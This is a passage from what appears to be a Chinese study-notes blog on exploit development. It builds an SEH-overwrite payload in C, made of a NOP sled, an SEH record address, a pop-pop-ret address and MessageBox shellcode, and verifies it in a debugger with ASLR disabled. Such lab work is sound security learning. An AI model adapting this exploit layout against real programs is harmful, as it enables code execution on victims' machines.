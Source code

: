 然后再次build并用OD调试，记录下上述节点在栈上的起始地址（所以要关闭系统ASLR）。接着就可以构造最终的shellcode了：

```c
char shellcode[] = 
// 210 nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90"
// address of last seh record
"\x14\xff\x12\x00"
// PPR's address (in our dll)
"\x12\x10\x12\x11"
// 8 nop
"\x90\x90\x90\x90\x90\x90\x90\x90"
// 170 messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8\x90\x90"
// final SEH Node
"\xFF\xFF\xFF\xFF"
"\x2d\xab\xf7\x77";
```

OK，build一下，用OD确认一下栈上的布置：

![Bildschirmfoto 2018-11-02 um 10.50.38 AM.png]({{ site.url }}/images/0day/A0BA6759C67AC58B1BFD56CEC6DFD2DB.png)

![Bildschirmfoto 2018-11-02 um 10.50.56 AM.png]({{ site.url }}/images/0day/6142C8DA52DAEC3BA757CD01F8E1EA0A.png)

一切正常，测试：

![Bildschirmfoto 2018-11-02 um 9.28.31 AM.png]({{ site.url }}/images/0day/BC4F40E305F0CBB00CE4B011A38B3D24.png)
